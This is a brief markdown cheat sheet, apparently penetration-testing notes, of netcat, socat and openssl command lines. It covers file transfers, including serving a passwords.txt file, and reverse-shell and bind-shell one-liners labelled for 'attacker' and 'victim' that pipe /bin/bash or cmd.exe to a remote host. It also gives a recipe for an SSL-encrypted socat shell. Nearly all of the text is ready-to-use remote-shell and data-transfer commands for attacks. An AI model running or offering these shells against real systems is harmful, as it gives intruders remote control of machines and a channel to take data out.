 # Utilities 
useful CLI utilities

## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444
`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe
`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443
`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt
`socat TCP4:{ip-address}:443 file:passwords.txt,create`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with openssl
utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
 - socat listener utilizing the cert
 	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
 - socat SSL connection to listener
 	- `socat - OPENSSL:{ip-address}:443,verify=0`
